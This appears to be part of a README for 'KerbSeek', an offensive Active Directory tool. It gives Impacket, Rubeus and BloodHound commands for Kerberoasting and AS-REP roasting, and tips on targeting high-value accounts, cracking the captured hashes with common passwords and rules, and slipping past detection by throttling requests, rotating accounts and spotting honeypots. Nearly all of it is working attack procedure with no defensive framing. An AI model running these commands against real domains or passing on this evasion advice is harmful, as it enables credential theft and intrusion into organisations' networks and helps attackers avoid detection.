 ## Integration Examples

### With Impacket
```bash
# Get TGS tickets with GetUserSPNs.py
GetUserSPNs.py DOMAIN/user:pass -dc-ip 10.0.0.1 -request

# Get AS-REP hashes with GetNPUsers.py
GetNPUsers.py DOMAIN/ -usersfile users.txt -dc-ip 10.0.0.1
```

### With Rubeus (Windows)
```powershell
# Kerberoasting
Rubeus.exe kerberoast /outfile:hashes.txt

# ASREPRoasting
Rubeus.exe asreproast /outfile:asrep.txt
```

### With BloodHound
```bash
# 1. Collect AD data
bloodhound-python -d CORP.LOCAL -u user -p pass -dc DC01 -c All

# 2. Query for SPNs in BloodHound GUI:
MATCH (u:User) WHERE u.hasspn=true RETURN u

# 3. Export list and feed to KerbSeek
./kerbseek.py -d CORP.LOCAL -u user -p pass --spns bloodhound_spns.txt
```

## Tips & Tricks

### 🎯 Maximize Success Rate
- **Start with ASREPRoast**: No credentials needed
- **Target RC4 first**: Much faster to crack
- **Use leaked password lists**: Corporates often reuse breached passwords
- **Try seasonal passwords**: Winter2024!, Summer2024!, etc.
- **Check default patterns**: Company123!, Password1!, Welcome1!

### 🔍 Stealth Considerations
- **Limit requests**: Use `-w 5` for slower, stealthier scans
- **Avoid floods**: Don't request hundreds of tickets at once
- **Rotate accounts**: Use different domain users for requests
- **Check for honeypots**: Be wary of accounts with tempting SPNs

### ⚡ Performance Tips
- **Use SSD for cracking**: Massive speed boost
- **Prioritize high-value**: Target admin/sql/backup accounts first
- **Parallel cracking**: Split hash files across multiple GPUs
- **Rule-based attacks**: Use best64.rule before brute force
